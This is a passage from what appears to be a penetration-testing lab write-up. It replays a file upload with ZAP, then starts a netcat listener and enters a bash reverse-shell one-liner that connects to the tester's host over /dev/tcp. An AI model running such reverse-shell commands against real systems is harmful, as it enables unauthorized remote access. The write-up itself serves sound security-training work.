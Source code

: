 Occasionally the web server will remove content from the `/uploads/` directory. The tester used the Requestor feature of ZAP to replay the file upload.

![](/assets/attachments/Pasted%20image%2020240611062223.png)

![](/assets/attachments/Pasted%20image%2020240611062309.png)

A reverse bash shell was attempted.

On the attacking host, run the listener:
```shell
$ nc -nlvp 9090

```

Enter the command `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.108/9090 0>&1'` into the `System Shell` prompt and click `Enter`.

![](/assets/attachments/Pasted%20image%2020240611061828.png)
